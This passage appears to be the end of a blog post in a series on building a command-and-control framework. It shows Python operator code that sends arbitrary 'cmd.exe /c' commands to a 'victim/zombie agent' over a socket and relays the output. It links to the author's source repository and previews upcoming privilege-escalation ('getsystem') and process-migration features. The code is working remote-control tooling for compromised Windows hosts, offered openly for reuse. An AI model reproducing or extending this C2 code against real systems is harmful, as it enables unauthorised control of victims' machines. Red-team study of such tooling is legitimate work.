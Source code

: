 > And finally, the code to execute commands on the victim/zombie agent:

```python
if choice == "execute":
            try:
                print("Enter your command you would like to execute on the agent below")
                thecommand=input(":")
                clientlist[selection][1].send(f"c0mm@nd\ncmd.exe /c {thecommand}\n".encode('utf-8'))
                print(Fore.GREEN + "[+] command sent!" + Fore.WHITE)
                #clientlist[selection][1].settimeout(4)
                while True:
                    data2=clientlist[selection][1].recv(1024)
                  
                    if not data2 or ":endofoutput:" in data2.decode():
                        endoutput=data2.decode()
                        endoutput = endoutput.replace(":endofoutput:", "")
                        print(endoutput, end='')
                        break
                    #proclist = proclist.decode('UTF-8')
                    #print(proclist)
                    print(data2.decode(), end='')
                input("[+] DONE! Press any key to return...")
            except:
                print(Fore.RED + "[+] Either reached end of output for receiving socket or..." + Fore.WHITE)
                print(Fore.RED + "[!] there was an error sending the command to the zombie...\ncheck to see if your zombie died" + Fore.WHITE)
                time.sleep(2)
```
Source code located in the usual spot:

[https://github.com/g3tsyst3m/CodefromBlog](https://github.com/g3tsyst3m/CodefromBlog)

Also, here's the GIF I used in my X post that demo's some of these new features!  

![c2_part2](https://github.com/user-attachments/assets/debf1b8d-be1f-446f-a62a-e46f2269e565)

Thanks everyone, and be sure to stay tuned for `Part 3` where we explore `getsystem` and `process migration` techniques and incorporate them into our code!

















